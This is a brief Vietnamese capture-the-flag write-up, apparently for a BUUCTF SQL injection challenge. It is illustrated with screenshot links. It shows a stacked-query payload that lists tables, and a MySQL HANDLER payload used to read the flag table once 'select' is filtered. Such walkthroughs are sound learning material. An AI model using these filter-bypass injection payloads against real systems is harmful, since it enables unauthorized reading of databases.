 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/90713a6e-7fb5-49b9-a286-94172ca2581f)

Đầu tiên ta có form của challenge, mình sẽ thử inject sqli

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/cd279332-fb12-468f-843c-cbb64e71c90a)

Có xuất hiện báo lỗi sqli, sau đó mình thử vài payload cơ bản

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/67427291-0e7f-405f-82b8-9b00905c646f)

Kết quả trả lại là bị filter đi rồi. Mình sẽ thử Stacked SQLi

`1';show tables;#`

Và có trả ra kết quả

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/929b34ce-7ae0-4b53-8b5e-9874461ba93b)

Dự đoán là flag sẽ ở `FlagHere`.Mình sẽ thử các payload cơ bản với lại `;`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f0d16e6c-58b2-4e86-aa18-b430aef09940)

Nhưng đã bị filter `select`.Mình sẽ dùng `handler`, cách này mình học được từ giải PicoCtf2023

[Readhere](https://dev.mysql.com/doc/refman/8.0/en/handler.html#:~:text=HANDLER%20enables%20you%20to%20traverse%20a%20database%20in,provide%20an%20interactive%20user%20interface%20to%20the%20database.)

`1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bf7219b2-a87e-4f80-96a3-f7a336d72f8c)


